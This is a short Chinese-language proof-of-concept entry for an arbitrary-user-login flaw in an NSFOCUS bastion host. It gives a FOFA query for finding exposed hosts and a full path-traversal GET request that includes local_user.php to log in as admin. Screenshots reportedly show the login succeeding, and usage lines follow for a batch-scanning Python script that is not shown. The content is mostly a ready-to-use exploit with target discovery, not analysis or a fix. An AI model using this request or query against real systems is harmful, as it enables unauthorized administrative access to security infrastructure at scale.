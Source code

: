 绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487092994-e4fea1fd-973a-430a-adab-aef472f1901a.png)

### 2.fofa语法

```plain
body="'/needUsbkey.php?username='"
```

### 3.漏洞复现

```plain
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487297499-d6c71d48-fb16-454c-8f27-e10ad813fcee.png)

登录成功

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487263928-ac3127d3-5d77-4b0b-a348-763ee329e3a6.png)

### 4.py脚本使用

```
python3 文件名 -f url.txt # 批量测试url
python3 文件名 -u http://127.0.0.1 # 单个测试url
```

